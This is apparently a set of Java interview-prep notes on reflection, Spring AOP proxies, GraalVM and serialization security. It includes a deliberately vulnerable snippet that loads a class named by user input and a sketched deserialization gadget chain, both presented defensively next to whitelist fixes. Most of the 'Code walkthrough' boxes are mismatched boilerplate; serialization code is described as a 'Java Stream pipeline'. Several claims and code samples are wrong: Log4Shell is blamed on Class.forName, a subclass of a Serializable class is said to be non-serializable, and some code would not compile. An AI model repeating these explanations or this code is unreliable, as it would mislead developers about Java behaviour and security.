// Auto-cleared when the class is garbage collected (ClassLoader GC)
// Preferred over ConcurrentHashMap<Class<?>, ...> for class-keyed caches

// Jackson's approach:
// ObjectMapper caches: BeanDescription per class (field list, annotations)
// First serialization: expensive (scan fields, find annotations)
// Subsequent: use cached BeanDescription
// Benchmark: 10x+ speedup on repeated serialization of same type
```

> **Code walkthrough:** This Unknown example demonstrates metadata declaration using generic type. **KEY MECHANISM:** annotations are processed at compile-time or runtime via reflection. **WHY IT MATTERS:** annotation processing adds compile time; runtime reflection disables JIT optimizations. **TAKEAWAY: prefer compile-time annotation processors (APT) over runtime reflection for performance.**

*What separates good from great:* `ClassValue<T>` is the JVM-provided
per-class cache, available since Java 7. Unlike `WeakHashMap<Class<?>, T>`
or `ConcurrentHashMap`, it's designed for this exact use case:
the cache entry is associated with the class object's identity, cleared
when the class is unloaded, and accessed without hash collision overhead.
For reflection-heavy code that processes many different types: `ClassValue`
is the production-correct solution. Many frameworks (Hibernate Validator,
Jackson internals) use it or equivalent patterns.

---

**Q9 (Serialization and reflection): How does Java serialization use reflection?**

A: Java's built-in serialization (`ObjectOutputStream`/`ObjectInputStream`)
uses reflection internally:
1. `writeObject()`: iterates all non-transient, non-static fields (including private) via `getDeclaredFields()` + `setAccessible(true)`
2. `readObject()`: instantiates object WITHOUT calling constructor (allocates directly via `ReflectionFactory`), then restores fields via reflection

```java
// Serializable class:
class User implements Serializable {
    private static final long serialVersionUID = 1L;
    private String name;
    private transient String password; // NOT serialized

    private void writeObject(ObjectOutputStream out) throws IOException {
        out.defaultWriteObject(); // serialize non-transient fields
        out.writeObject(encrypt(password)); // custom: encrypted password
    }

    private void readObject(ObjectInputStream in)
            throws IOException, ClassNotFoundException {
        in.defaultReadObject(); // restore non-transient fields
        this.password = decrypt((String) in.readObject()); // custom restore
    }
}

// Serialization security risk:
// readResolve() can return a different object after deserialization
// Gadget chains: a series of readObject() calls that trigger
// arbitrary code execution (Java deserialization vulnerabilities)
// CVE-2015-4852: Apache Commons Collections gadget chain
// Prevention: serialization filters (Java 9+)
ObjectInputStream ois = new ObjectInputStream(input);
ois.setObjectInputFilter(FilterInfo fi -> {
    if (fi.serialClass() == null) return ObjectInputFilter.Status.UNDECIDED;
    if (fi.serialClass().getName().startsWith("com.myapp.")) {
        return ObjectInputFilter.Status.ALLOWED;
    }
    return ObjectInputFilter.Status.REJECTED; // deny all unknown classes
});
Object obj = ois.readObject();
```

> **Code walkthrough:** This Unknown example demonstrates Java Stream pipeline. **KEY MECHANISM:** the stream is lazy - intermediate ops build a pipeline, terminal op drives it. **WHY IT MATTERS:** calling terminal op twice throws IllegalStateException; parallel() on small data adds overhead. **TAKEAWAY: collect() or findFirst() triggers the pipeline; reuse by wrapping in Supplier.**

*What separates good from great:* Java deserialization is one of the most
critical security issues in enterprise Java. Deserializing untrusted data
(from external systems, user uploads, message queues containing serialized
Java objects) can execute arbitrary code via "gadget chains" - sequences of
`readObject()` implementations in legitimate classes that chain together to
run attacker-controlled code. The fix: never deserialize untrusted Java
serialization data. If required: use `ObjectInputFilter` (Java 9+) to
whitelist allowed classes. Modern alternative: JSON/Protocol Buffers/Avro
instead of Java serialization for cross-system communication.

---

**Q10 (GraalVM native image): How does GraalVM native image affect reflection?**

A: GraalVM Native Image performs ahead-of-time (AOT) compilation: it builds
a standalone native executable from Java code. The trade-off: dynamic features
(reflection, dynamic class loading) require explicit configuration.

```json
// reflect-config.json: declares all reflective access at build time
[
  {
    "name": "com.example.User",
    "allDeclaredFields": true,
    "allDeclaredMethods": true,
    "allDeclaredConstructors": true
  },
  {
    "name": "com.example.OrderService",
    "methods": [
      {"name": "processOrder", "parameterTypes": ["com.example.OrderRequest"]}
    ]
  }
]
// native-image will include only the declared reflective accesses
// Any undeclared reflection at runtime: NullPointerException or ClassNotFoundException
```

> **Code walkthrough:** This Unknown example demonstrates a key concept in practice. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**

*What separates good from great:* Spring Boot 3 + GraalVM Native Image is
the production scenario. Spring's `@RegisterReflectionForBinding` and
`@ImportRuntimeHints` annotations generate the `reflect-config.json`
automatically for Spring beans. For custom code: use the GraalVM Tracing Agent
(`-agentlib:native-image-agent=config-output-dir=./config`) to auto-generate
configuration by running tests and watching reflective accesses. Quarkus and
Micronaut build around AOT from the ground up, avoiding dynamic reflection
in their core (processing everything at build time).

---

**Q11 (Spring AOP proxy model): How does Spring AOP use dynamic proxies?**

A:
```java
// Spring's proxy creation (simplified):
// 1. At startup: BeanPostProcessor scans beans for @Transactional,
//    @Cacheable, @Async, @Secured, custom @Aspect pointcuts
// 2. For matching beans: wraps in a proxy (JDK or CGLIB)
// 3. Proxy chains interceptors: [SecurityInterceptor -> TransactionInterceptor
//    -> CacheInterceptor -> Target method]

@Service
class OrderService {
    @Transactional  // Spring adds TransactionInterceptor
    @Cacheable("orders") // Spring adds CacheInterceptor
    @PreAuthorize("hasRole('USER')") // Spring adds SecurityInterceptor
    public Order getOrder(Long id) {
        return repo.findById(id).orElseThrow();
    }
}

// What Spring builds (conceptually):
// OrderService proxy:
//   invoke(getOrder, [id]):
//     1. SecurityInterceptor.invoke() -> check hasRole('USER')
//     2. CacheInterceptor.invoke() -> check "orders" cache
//     3. TransactionInterceptor.invoke() -> begin transaction
//     4. OrderService.getOrder(id) -> real method
//     5. TransactionInterceptor -> commit/rollback
//     6. CacheInterceptor -> cache result
//     7. SecurityInterceptor -> cleanup

// Self-invocation problem (critical):
@Service
class OrderService {
    public void processOrder(Order order) {
        // Calls self directly - bypasses ALL proxy interceptors!
        this.persistOrder(order); // 'this' is the real object, not proxy
    }

    @Transactional // NEVER CALLED - no proxy here!
    private void persistOrder(Order order) { repo.save(order); }

    // Fix: inject self via @Autowired, or use AopContext.currentProxy()
}
```

> **Code walkthrough:** This Unknown example demonstrates Spring declarative transaction using @Transactional. **KEY MECHANISM:** Spring wraps the method in a proxy that begins/commits a DB transaction. **WHY IT MATTERS:** calling @Transactional from the same class bypasses the proxy - no transaction. **TAKEAWAY: never self-invoke @Transactional methods; inject the bean instead.**

*What separates good from great:* Spring AOP's proxy model has a well-known
limitation: it only intercepts calls that go THROUGH the proxy. Any internal
call (`this.method()`) goes directly to the target object. This is why
Spring recommends structuring code so transactional/cached/secured operations
are public methods on separate beans, not internal helpers. The alternative:
AspectJ full weaving (compile-time or load-time bytecode instrumentation)
which can intercept ANY call including private and internal. Spring supports
AspectJ mode via `@EnableAspectJAutoProxy(mode=AspectJ)`.

---

**Q12 (Security implications): What are the security risks of reflection?**

A:
1. **Access control bypass:** `setAccessible(true)` bypasses `private`, `protected`
2. **Sensitive data exposure:** reflectively reading private fields (passwords, keys)
3. **Gadget chains in deserialization:** as discussed in Q9
4. **Arbitrary class instantiation:** `Class.forName(userInput).newInstance()`

```java
// VULNERABILITY: accepting class name from user input
// BAD: Server-Side Template Injection / Remote Code Execution
String className = request.getParameter("class"); // user-controlled!
Class<?> clazz = Class.forName(className);        // loads ANY class!
Object obj = clazz.getDeclaredConstructor().newInstance(); // instantiates it!
// Attacker sends: class=javax.naming.InitialContext
// InitialContext constructor can connect to attacker LDAP
// -> Log4Shell-style RCE (CVE-2021-44228)

// FIX: whitelist approach
private static final Set<String> ALLOWED_CLASSES = Set.of(
    "com.example.model.User",
    "com.example.model.Order"
);
String className = request.getParameter("class");
if (!ALLOWED_CLASSES.contains(className)) {
    throw new SecurityException("Unauthorized class: " + className);
}
Class<?> clazz = Class.forName(className); // now safe

// Java Security Manager (deprecated Java 17, removed 21):
// Was the platform-level defense. Now: module system + explicit whitelists
// Modern defense: input validation + class whitelist + SecurityManager replacement
```

> **Code walkthrough:** BAD pattern: This Unknown example demonstrates Java API ice. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**

*What separates good from great:* Log4Shell (CVE-2021-44228) was the most
severe Java vulnerability in years: Log4j2 used `Class.forName()` with
data from log messages (user-controlled input), enabling JNDI lookups to
attacker-controlled LDAP servers. The root cause: trusting class names
derived from user input. This applies to any code path where:
`Class.forName(string)`, `Class.forName(string).newInstance()`,
`ClassLoader.loadClass(string)`, or `ObjectInputStream.readObject()`
processes attacker-controlled data. The fix: whitelist, input validation,
`ObjectInputFilter`, never log unsanitized user input.

---

### ⚖️ Comparison Table

| Mechanism| Type Safety| Performance| Dynamic| Use Case|
|-------------|-------------------|-------------|-------|----------------------|
| Direct call| Compile-time| Native (1x)| No| Normal code|
| `Method.invoke()`| Runtime| 20-50x slower| Yes| General reflection|
| `MethodHandle.invokeExact()`| Checked at creation| 2-5x (JIT)| Yes| Performanc
| `VarHandle`| Typed| Near-native| Yes| Atomic field access|
| JDK Dynamic Proxy| Interface| Moderate| Yes| Interface interception|
| CGLIB Proxy| Class| Moderate| Yes| Class interception|
| Byte Buddy| Both| Near-native| Yes| Framework bytecode gen|

---

### 🏛️ System Design

**Design: Framework dependency injection container using reflection**

```
Application Startup:
  [Classpath Scan] -> [Component Detection] -> [Dependency Graph]
       |                      |                       |
  Class.forName()      @Service, @Repository    topological sort
  URLClassLoader        @Component, @Bean        cycle detection
                            |
                    [Bean Factory]
                         |         |
               [JDK Proxy]     [CGLIB Proxy]
               (interface)      (class)
                    |                |
            [Interceptor Chain]
               @Transactional
               @Cacheable
               @Async
               @Secured
                    |
            [Application Ready]
                    |
             [Runtime Calls]
             InvocationHandler
             -> interceptors
             -> target method
```



> **Diagram walkthrough:** The sequence shows Spring's startup flow: classpath
> scanning uses `Class.forName()` to load classes, reflection reads annotations,
> the bean factory resolves dependencies and detects cycles via topological sort
> then proxies are created for AOP-annotated beans. At runtime, every method
> call goes through the interceptor chain before reaching the real target.
> The key insight: all the expensive reflection happens once at startup,
> cached in `BeanDefinition` objects. Runtime calls use cached proxy classes
> and pre-built interceptor chains.

---

### 📊 Diagram

**JDK Dynamic Proxy call chain:**

```
Caller -> [OrderService (Proxy)]
             |
             | InvocationHandler.invoke()
             |
             +-> SecurityInterceptor.invoke()
             |      +-> check hasRole('USER')
             |
             +-> CacheInterceptor.invoke()
             |      +-> check cache(orders, id)
             |      +-> (if miss, proceed)
             |
             +-> TransactionInterceptor.invoke()
             |      +-> begin transaction
             |      +-> proceed
             |      +-> commit/rollback
             |
             +-> OrderServiceImpl.getOrder(id)
                    +-> repo.findById(id)
                    +-> return Order
```



> **Diagram walkthrough:** The proxy wraps the real `OrderServiceImpl` with
> a chain of interceptors. Each interceptor can: check a condition and abort
> (security), short-circuit with cached value (cache), wrap with transaction
> semantics (transaction). Interceptors are ordered (security before cache
> before transaction by default in Spring). The `InvocationHandler.invoke()`
> method is the single entry point for ALL method calls on the proxy. The
> proxy knows all interfaces the target implements; calling any method on
> the proxy routes through the same `invoke()` method. The proxy pattern
> enables adding cross-cutting concerns (security, caching, transactions)
> without modifying the target class.

---

---

# Java Core - L4 Serialization

## Java Serialization Mechanisms and Security

---

### 🎯 Model Answer

**30 seconds:**
> Java serialization converts objects to a byte stream (`ObjectOutputStream`)
> and back (`ObjectInputStream`). `implements Serializable` opts in.
> `transient` fields are excluded. `serialVersionUID` controls version
> compatibility. Java serialization is DEPRECATED for cross-system use due
> to critical security vulnerabilities: deserialization of untrusted data
> enables remote code execution (gadget chains). Modern alternatives:
> JSON (Jackson), Protocol Buffers, Avro for cross-system; record-based
> copying for in-JVM. If you MUST use Java serialization: use
> `ObjectInputFilter` to whitelist allowed classes.

**3 minutes (Senior):**
> Serialization uses reflection to read/write all non-transient, non-static
> fields, including private. `readObject()`/`writeObject()` on the class
> are called if present (private - reflection bypass is intentional).
> `readResolve()` enables singleton preservation (return `INSTANCE`).
> `writeReplace()` enables serializing a proxy instead of the real object.
>
> The security crisis: Java serialization allows deserializing ANY class
> on the classpath (including commons-collections `InvokerTransformer`).
> Gadget chains use legitimate class `readObject()` implementations to
> chain method calls ending in `Runtime.exec()`. CVE-2015-4852, CVE-2017-3248,
> Log4Shell-adjacent. Java 9 introduced `ObjectInputFilter` (whitelist).
> Java 17: serialization filters can be set globally via system property.
>
> Modern Java serialization: `record` types are not Serializable by default.
> Alternative APIs: `java.io.Externalizable` gives full control but is verbose.
> `Kryo` is a faster, more compact binary serialization library. For persistence:
> JPA + SQL. For messaging: Protocol Buffers, Avro (schema evolution).

**Framework:** WHAT → WHY → HOW → TRADE-OFF → EXAMPLE

**Blank Mind Recovery:**

**(1) Restate:** "Java serialization - let me cover the Serializable interface,
serialVersionUID, custom readObject/writeObject, the security vulnerabilities,
ObjectInputFilter, and modern alternatives."

**(2) First principles:** "Serialization converts object state to bytes for
transport or storage. The challenge: the byte stream must recreate the object
exactly, including private state not accessible through normal APIs - which
requires bypassing Java's access controls. This power creates security risk."

**(3) Bridge:** "Java serialization is like a photocopier that can duplicate
ANY document, including classified ones. The photocopy can be sent anywhere.
If a bad actor intercepts it and replaces it with a forged copy - the
photocopier will recreate the forged document as a real object."

---


### 🎯 Interview Deep-Dive

| Question Category | Time to Answer |
|---|---|
| What makes a class serializable | 90 seconds |
| serialVersionUID purpose | 2 minutes |
| Transient and static fields | 2 minutes |
| readObject/writeObject | 2 minutes |
| Serialization security risks | 3 minutes |
| ObjectInputFilter | 2 minutes |
| Serialization and inheritance | 2 minutes |
| Externalizable vs Serializable | 2 minutes |
| readResolve and singleton | 2 minutes |
| Modern alternatives | 2-3 minutes |
| Gadget chains | 3 minutes |
| Protocol Buffers vs JSON vs Java serialization | 2-3 minutes |

---

**Q1 (What makes serializable): What makes a class serializable and
what are the requirements?**

A:
1. Must implement `java.io.Serializable` (marker interface, no methods)
2. All non-transient, non-static fields must be serializable (or transient)
3. `serialVersionUID` strongly recommended (auto-computed is fragile)
4. All classes in the inheritance hierarchy must be serializable OR have
   a no-arg constructor (for the non-serializable part)

```java
// Fully serializable:
class Point implements Serializable {
    private static final long serialVersionUID = 1L;
    private final double x, y; // both double - primitive, serializable
}

// Field is non-serializable - compile warning, runtime exception:
class Config implements Serializable {
    private Thread workerThread; // Thread is NOT Serializable!
    // -> NotSerializableException at runtime if workerThread is non-null
    // Fix: transient
    private transient Thread workerThread; // excluded from serialization
}

// Inheritance with non-serializable parent:
class Animal { // NOT Serializable
    private String species;
    Animal() { this.species = "unknown"; } // no-arg constructor required!
}
class Dog extends Animal implements Serializable {
    private static final long serialVersionUID = 1L;
    private String name;
    // On deserialize: Animal() is called (restores species="unknown")
    // Only Dog's fields (name) come from the stream
}
```

> **Code walkthrough:** This Unknown example demonstrates Java Stream pipeline. **KEY MECHANISM:** the stream is lazy - intermediate ops build a pipeline, terminal op drives it. **WHY IT MATTERS:** calling terminal op twice throws IllegalStateException; parallel() on small data adds overhead. **TAKEAWAY: collect() or findFirst() triggers the pipeline; reuse by wrapping in Supplier.**

*What separates good from great:* The inheritance requirement is subtle.
When deserializing `Dog`, the JVM calls `Animal()`'s no-arg constructor
to initialize the non-Serializable parent state, then restores `Dog`'s
fields from the stream. If `Animal` doesn't have a no-arg constructor:
`InvalidClassException` at deserialization. This means: inheriting from
classes you don't control (third-party) and making them serializable
requires verifying their constructors. More importantly: `Animal`'s state
is NOT restored from the stream - it's reset to the constructor's default.
If the application requires `species` to be preserved: you need a custom
`writeObject()`/`readObject()` in `Dog` to manually save/restore `Animal`'s state.

---

**Q2 (serialVersionUID): Why is serialVersionUID important?**

A:
```java
// Without explicit UID: computed from class structure
// Any change to the class -> different UID -> InvalidClassException
// when reading old serialized data with the new class

// WITH explicit UID: you control compatibility
class User implements Serializable {
    private static final long serialVersionUID = 1L;
    private String name;
    private String email;
    // Adding a field with same UID = compatible (field is null/default in old data)
    private String phoneNumber; // safe to add, old data: phoneNumber=null
    // Removing a field with same UID = compatible (old data's value ignored)
    // Changing a field type: NOT compatible (will throw ClassCastException)
    // To signal incompatibility: change the UID to 2L
}

// Serial version mismatch error:
// java.io.InvalidClassException: User; local class incompatible:
//   stream classdesc serialVersionUID = 1234567890123456789,
//   local class serialVersionUID = 9876543210987654321
// -> Tells you exactly what changed: different UIDs

// Generating a consistent UID: serialver tool
// $ serialver com.example.User
// com.example.User: static final long serialVersionUID = 7309839278324XXX

// Best practice: always set to 1L for new classes, increment when
// making incompatible changes
```

> **Code walkthrough:** This Unknown example demonstrates Java Stream pipeline. **KEY MECHANISM:** the stream is lazy - intermediate ops build a pipeline, terminal op drives it. **WHY IT MATTERS:** calling terminal op twice throws IllegalStateException; parallel() on small data adds overhead. **TAKEAWAY: collect() or findFirst() triggers the pipeline; reuse by wrapping in Supplier.**

*What separates good from great:* `serialVersionUID` is a versioning contract.
If you deploy a new version of a service that has sessions serialized to
Redis or a file, and the class changed without a UID increment: users get
`InvalidClassException` on session restore. The correct process: if changes
are backward-compatible (adding fields only), keep the same UID. If you're
breaking compatibility (changing types, removing required fields): increment
the UID, which forces the application to handle the "old data not deserializable"
case explicitly (redirect to re-authentication, etc.). Using `1L` for all classes:
works only if you control all serialized data and can do a full flush before
deploying incompatible changes.

---

**Q3 (Transient and static): What is the behavior of transient and static
fields during serialization?**

A:
```java
class Connection implements Serializable {
    private static final long serialVersionUID = 1L;

    // Static fields: NOT serialized (class state, not instance state)
    static int connectionCount = 0;

    // Transient fields: NOT serialized
    transient Socket socket; // runtime resource, can't serialize
    transient long lastActivityMs; // time-based, irrelevant after restore

    // Normal fields: serialized
    String host;
    int port;

    // After deserialization:
    // socket = null (transient) -> must reinitialize!
    // lastActivityMs = 0 (transient, default long)
    // host and port = restored from stream

    // Handle transient reinitialization:
    private Object readResolve() {
        // called after readObject; return new connected instance:
        return new Connection(host, port); // re-establish connection
    }
    // OR: lazy initialization in getSocket():
    Socket getSocket() {
        if (socket == null) socket = new Socket(host, port);
        return socket;
    }
}
```

> **Code walkthrough:** This Unknown example demonstrates Java Stream pipeline. **KEY MECHANISM:** the stream is lazy - intermediate ops build a pipeline, terminal op drives it. **WHY IT MATTERS:** calling terminal op twice throws IllegalStateException; parallel() on small data adds overhead. **TAKEAWAY: collect() or findFirst() triggers the pipeline; reuse by wrapping in Supplier.**

*What separates good from great:* The transient field lifecycle question
is critical for distributed session replication. Session objects serialized
to Redis or Memcached: any resource (database connections, cached computed
values, locks) must be `transient`. The application must handle
null-transient-after-deserialize gracefully. Common pattern: `@Transient`
(JPA), or `transient` (Java) for all non-data fields. Post-deserialization
initialization: `readObject()` (for reading from stream + reinitializing) or
`readResolve()` (for post-deserialization factory replacement). Testing
that null transient fields don't cause NPE is a required unit test for
serializable session classes.

---

**Q4 (readObject/writeObject): How do custom readObject and writeObject work?**

A:
```java
class Version implements Serializable {
    private static final long serialVersionUID = 1L;
    private int major, minor, patch;

    private void writeObject(ObjectOutputStream out) throws IOException {
        // MUST call defaultWriteObject() or writeFields() first
        // (if you want the default fields written + custom extras)
        out.defaultWriteObject();
        // Write extra data:
        out.writeUTF(toVersionString()); // extra: "1.2.3"
    }

    private void readObject(ObjectInputStream in)
            throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        String versionStr = in.readUTF();
        // Could use this to validate or migrate
        if (!versionStr.equals(toVersionString())) {
            throw new InvalidObjectException("Version mismatch: " + versionStr);
        }
    }

    // readObjectNoData(): called when no data for this class in stream
    // (e.g., reading data from before this class was added to hierarchy)
    private void readObjectNoData() throws ObjectStreamException {
        // Initialize to defaults:
        major = 1; minor = 0; patch = 0;
    }
}

// Serialization proxy pattern (Effective Java Item 90):
// Best approach: never serialize the real class, serialize a proxy
class Period implements Serializable {
    private final Date start;
    private final Date end;

    Period(Date start, Date end) {
        // validate invariants
    }

    // Proxy replaces Period in the stream:
    private Object writeReplace() { return new SerializationProxy(this); }

    // Prevent direct deserialization of Period:
    private void readObject(ObjectInputStream s) throws InvalidObjectException {
        throw new InvalidObjectException("Proxy required");
    }

    private static class SerializationProxy implements Serializable {
        private final Date start, end;
        SerializationProxy(Period p) { this.start = p.start; this.end = p.end; }
        private Object readResolve() {
            return new Period(start, end); // goes through the validated constructor!
        }
    }
}
```

> **Code walkthrough:** This Unknown example demonstrates Java Stream pipeline. **KEY MECHANISM:** the stream is lazy - intermediate ops build a pipeline, terminal op drives it. **WHY IT MATTERS:** calling terminal op twice throws IllegalStateException; parallel() on small data adds overhead. **TAKEAWAY: collect() or findFirst() triggers the pipeline; reuse by wrapping in Supplier.**

*What separates good from great:* The serialization proxy pattern (Effective Java
Item 90) is the gold standard for secure, correct serialization. Instead of
the JVM bypassing constructors: `writeReplace()` saves a simple proxy object,
and `readResolve()` calls `new Period(start, end)` - the NORMAL constructor
with full validation. The `readObject()` that throws prevents anyone from
crafting a direct `Period` byte stream that bypasses validation. This pattern
also enables immutable classes (like `Period`) to be serializable without
security risks.

---

**Q5 (Serialization security risks): What are the security risks of Java serialization?**

A: **The root problem:** `ObjectInputStream.readObject()` will instantiate
ANY Serializable class on the classpath, calling `readObject()` on each.
This is called "Gadget chain exploitation":

```
Gadget chain (Commons Collections 3.x example):
  ObjectInputStream.readObject()
  -> PriorityQueue.readObject()
  -> PriorityQueue.heapifyDown()
  -> InvokerTransformer.compare()  (ChainedTransformer)
  -> InvokerTransformer.transform()
  -> Method.invoke(Runtime.getRuntime())
  -> Runtime.exec("malicious command")  <-- code execution!

Requirements for gadget chain:
  1. An "entry point" class: readObject() that calls a method
  2. One or more "gadget" classes: legitimate code that can be chained
  3. A "sink": a method that does something dangerous (exec, JNDI, etc.)

Vulnerable libraries (partial list):
  - Apache Commons Collections 3.1-3.2.1 (InvokerTransformer gadget)
  - Spring Framework (SpringPartiallyComparableBeanFactory)
  - Groovy (ConvertedClosure)
  - JDK 7u21 (PriorityQueue gadget - no external library needed!)

Attack surface in production:
  - Java RMI (port 1099) - designed for Java object serialization
  - HTTP endpoints accepting Content-Type: application/x-java-serialized-object
  - Memcached/Redis if storing serialized Java objects
  - JMX management ports
  - Many messaging systems that serialize message bodies as Java objects
```

> **Code walkthrough:** This Unknown example demonstrates a key concept in practice using Stream. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**

*What separates good from great:* The Java deserialization vulnerability
disclosure in 2015 (by Chris Frohoff and Gabriel Lawrence) showed that
millions of Java applications were vulnerable because they trusted serialized
data from the network. Apache Commons Collections (ubiquitous in enterprise
Java) had gadget chains that required zero custom code. The JDK itself had
gadget chains in JDK 7. The lesson: the deserialization attack surface is
any code path that calls `ObjectInputStream.readObject()` on attacker-controlled
bytes - not just "obvious" deserialization endpoints. JNDI in Log4j2 enabled
Log4Shell via a related but different mechanism (class loading from remote).

---

**Q6 (ObjectInputFilter): How does ObjectInputFilter protect against gadget chains?**

A:
```java
// ObjectInputFilter runs BEFORE readObject() on each class in the stream
// If a class is REJECTED: InvalidClassException immediately
// The gadget chain is stopped before any code runs

// String-based filter (simpler, Java 9+):
ObjectInputFilter filter = ObjectInputFilter.Config.createFilter(
    // Whitelist: allowed class patterns
    "com.myapp.model.*;" +          // your domain objects
    "java.util.ArrayList;" +        // allowed collections
    "java.util.HashMap;" +
    "java.lang.String;" +
    "java.lang.Integer;" +
    "java.lang.Long;" +
    // Limits to prevent resource exhaustion:
    "maxdepth=10;" +                // max object graph depth
    "maxrefs=1000;" +               // max object references
    "maxbytes=100000"               // max stream size
    // Default for unmatched: REJECTED
    // "!*" would be explicit reject-all
);

// Functional filter (more control):
ObjectInputFilter customFilter = info -> {
    // Called for each class in the stream
    Class<?> c = info.serialClass();
    if (c == null) return ObjectInputFilter.Status.UNDECIDED; // structural info

    // Check against whitelist:
    if (ALLOWED_CLASSES.contains(c.getName())) {
        return ObjectInputFilter.Status.ALLOWED;
    }
    if (c.getName().startsWith("com.myapp.")) {
        return ObjectInputFilter.Status.ALLOWED;
    }
    // Log attempted class (for monitoring):
    log.warn("SERIALIZATION_BLOCKED: {}", c.getName());
    return ObjectInputFilter.Status.REJECTED;
};

// Apply to specific stream:
try (ObjectInputStream ois = new ObjectInputStream(input)) {
    ois.setObjectInputFilter(filter);
    MyData data = (MyData) ois.readObject();
}

// Global application filter (Java 17+):
// In main() or static initializer:
ObjectInputFilter.Config.setSerialFilter(filter);
// Applies to ALL ObjectInputStream instances that don't set their own filter
```

> **Code walkthrough:** This Unknown example demonstrates Java Stream pipeline using generic type. **KEY MECHANISM:** the stream is lazy - intermediate ops build a pipeline, terminal op drives it. **WHY IT MATTERS:** calling terminal op twice throws IllegalStateException; parallel() on small data adds overhead. **TAKEAWAY: collect() or findFirst() triggers the pipeline; reuse by wrapping in Supplier.**

*What separates good from great:* `ObjectInputFilter` is necessary but not
sufficient. The whitelist must be maintained: every new domain class added
to serialization paths needs to be in the whitelist. Operational challenge:
at first implementation, you don't know all the classes in your streams
(libraries add their own serializable wrappers). Approach: start with
`ObjectInputFilter` in "log only" mode (always UNDECIDED, log class names),
run in staging, capture all class names, then switch to whitelist mode.
Java agent-based serialization monitoring (Contrast Security, JFrog Xray)
can automate this discovery. The `maxbytes` limit is crucial: billion-laughs-style
attacks (deeply nested object graphs that expand in memory) are prevented
by `maxrefs` and `maxdepth`.

---

**Q7 (Serialization and inheritance): How does serialization work with
class hierarchies?**

A:
```java
// Case 1: All Serializable
class Animal implements Serializable {
    private static final long serialVersionUID = 1L;
    String name;
}
class Dog extends Animal {
    private static final long serialVersionUID = 1L;
    String breed;
}
// Serialization: both name and breed written
// Deserialization: full restoration (both fields)

// Case 2: Non-Serializable parent
class Vehicle { // not Serializable
    int wheels = 4;
    Vehicle() {} // no-arg constructor REQUIRED
}
class Car extends Vehicle implements Serializable {
    private static final long serialVersionUID = 1L;
    String model;
}
// Serialization: only Car's fields (model) written; wheels NOT written
// Deserialization:
//   1. Vehicle() called (wheels = 4, constructor runs)
//   2. Car's fields (model) restored from stream
// wheels always = 4 after deserialization (even if it was 6 before serializing)

// Case 3: Serializable parent, non-Serializable child
class SerializableBase implements Serializable { String data; }
class NonSerializableChild extends SerializableBase {
    // NOT Serializable
    // Attempting to serialize instance: NotSerializableException
}

// Versioning with inheritance:
// Parent: serialVersionUID = 1L, has fields a, b
// Child:  serialVersionUID = 1L, has field c
// Upgrade parent to add field d (keep serialVersionUID = 1L):
// Old streams: d is null in parent, c from child stream
// OK for optional fields
```

> **Code walkthrough:** This Unknown example demonstrates Java Stream pipeline. **KEY MECHANISM:** the stream is lazy - intermediate ops build a pipeline, terminal op drives it. **WHY IT MATTERS:** calling terminal op twice throws IllegalStateException; parallel() on small data adds overhead. **TAKEAWAY: collect() or findFirst() triggers the pipeline; reuse by wrapping in Supplier.**

*What separates good from great:* The non-Serializable parent with no-arg
constructor pattern is the classic Spring/JPA entity issue. JPA entities extend
`@MappedSuperclass` which is usually non-Serializable. If you want to serialize
a JPA entity (for distributed caching), the parent must have a no-arg constructor.
More importantly: serializing JPA entities directly is generally BAD PRACTICE
because lazy-loaded relationships cause `LazyInitializationException` outside
the persistence context, and entity graphs include the EntityManager reference
(transient, but still a complexity). Better pattern: serialize DTO equivalents
(plain Serializable records/POJOs with only the data you need).

---

**Q8 (Externalizable vs Serializable): When do you use Externalizable?**

A: `Externalizable` extends `Serializable` and requires implementing:
- `writeExternal(ObjectOutput out)` - writes all data manually
- `readExternal(ObjectInput in)` - reads all data manually

```java
// Externalizable: full manual control
class NetworkPacket implements Externalizable {
    private byte[] data;
    private int type;
    private long timestamp;

    // Required: no-arg constructor (called before readExternal)
    public NetworkPacket() {}

    @Override
    public void writeExternal(ObjectOutput out) throws IOException {
        out.writeInt(type);
        out.writeLong(timestamp);
        out.writeInt(data.length);
        out.write(data); // raw bytes, no object overhead
    }

    @Override
    public void readExternal(ObjectInput in)
            throws IOException, ClassNotFoundException {
        this.type = in.readInt();
        this.timestamp = in.readLong();
        int len = in.readInt();
        this.data = new byte[len];
        in.readFully(this.data);
    }
}
// Advantages: no reflection, no field metadata in stream, faster, compact
// Disadvantages: completely manual (error-prone), must handle versioning manually

// When to use Externalizable:
// 1. Performance: avoid reflection overhead
// 2. Compact format: control exactly what bytes are written
// 3. Custom encoding: compression, encryption built in
// 4. Versioning: explicit version field in writeExternal

// Most Java code: use Serializable (simpler, reflection handles fields)
// High-performance code (game state, network packets): Externalizable or Kryo
```

> **Code walkthrough:** This Unknown example demonstrates Java Stream pipeline. **KEY MECHANISM:** the stream is lazy - intermediate ops build a pipeline, terminal op drives it. **WHY IT MATTERS:** calling terminal op twice throws IllegalStateException; parallel() on small data adds overhead. **TAKEAWAY: collect() or findFirst() triggers the pipeline; reuse by wrapping in Supplier.**

*What separates good from great:* In benchmarks, `Externalizable` is
approximately 3-5x faster than `Serializable` for complex objects (less
overhead per field: no field names in stream, no reflection). Libraries
like Kryo and FST take this further: they generate bytecode for serialization/
deserialization, achieving speeds 10-100x faster than Java serialization
for large object graphs. For production distributed caching (Hazelcast,
Ignite) or session replication: Kryo is the common choice. Spring Session
can use either Java serialization or Jackson for HTTP sessions.

---

**Q9 (readResolve and singleton): How does readResolve preserve singletons?**

A:
```java
// Problem: deserialization creates a NEW instance!
// Singleton pattern broken by serialization:
class ElvisPresley implements Serializable {
    static final ElvisPresley INSTANCE = new ElvisPresley();
    private ElvisPresley() {}
    // WITHOUT readResolve: readObject() creates a second instance!
}
ElvisPresley e1 = ElvisPresley.INSTANCE;
ByteArrayOutputStream baos = new ByteArrayOutputStream();
new ObjectOutputStream(baos).writeObject(e1);
ElvisPresley e2 = (ElvisPresley) new ObjectInputStream(
    new ByteArrayInputStream(baos.toByteArray())).readObject();
